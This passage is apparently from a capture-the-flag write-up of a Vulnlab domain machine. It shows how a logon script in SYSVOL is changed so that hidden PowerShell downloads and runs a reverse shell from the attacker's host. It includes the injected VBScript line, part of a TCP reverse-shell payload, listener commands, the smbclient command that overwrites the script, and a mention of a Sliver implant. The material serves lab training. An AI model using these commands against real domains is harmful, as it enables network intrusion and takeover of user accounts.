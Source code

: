So let's modify the script. I've included to resources below, a simple PowerShell reverse shell within a text file and a line of text that will trigger this reverse shell within `login.vbs`

```
CreateObject("WScript.Shell").Run "powershell -ep bypass -w hidden IEX (New-Object System.Net.Webclient).DownloadString('http://10.8.0.173:9001/revshell.txt')"
```

You can add this anywhere in the `login.vbs` script, I just opted to do it before the SMB shares are mapped at the bottom of the file.

Next, we'll make sure that the PowerShell reverse shell that I've generated is within the same directory that we'll be hosting, remember that it's name is `revshell.txt` and the LPORT for it is `9002`, which will point to a netcat listener.

```
$LHOST = "10.8.0.173"; $LPORT = 9002; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = [...snip...]$StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

You can generate a similar one from [revshells.com](https://www.revshells.com/), that's essentially all you'll need.

So now all that's left to do is to delete the existing `login.vbs` script is `SYSVOL` and add our modified script to it.

We'll also stand up two listeners, one being a Python HTTP server and another being a netcat listener.
`python3 -m http.server 9001`
`nc -lvnp 9002`

`smbclient -c 'cd \baby2.vl\scripts\; rm login.vbs; put login.vbs' \\\\10.10.102.12\\SYSVOL -U 'library'`

After about a minute or two of waiting, we can see that our file was grabbed by the remote machine from our webserver.
`10.10.102.12 - - [21/May/2024 14:16:02] "GET /revshell.txt HTTP/1.1" 200 -`

And we can also see that our reverse shell was executed, and we now have a shell as `amelia.griffiths`.

![](/images/vulnlab/baby2-vl/e.jpg)

# Host Reconnaissance

The user flag was not in it's ordinary location, which usually is `C:\Users\(user)\Desktop\user.txt`, however I found that it was just within the root `C:\` drive denoted as `C:\users.txt`. This means we have conquered the first half of the machine!

From here I decided to stand up a Sliver server and ran an implant so I could get an easier shell, since the shell that we landed with is very barebones. I've done this before in a few of my other writeups - essentially all I'm doing is starting a listener, generate an implant, and running the implant on the remote machine to receive a session. You can find all the documentation needed to do the above steps [here](https://github.com/BishopFox/sliver).
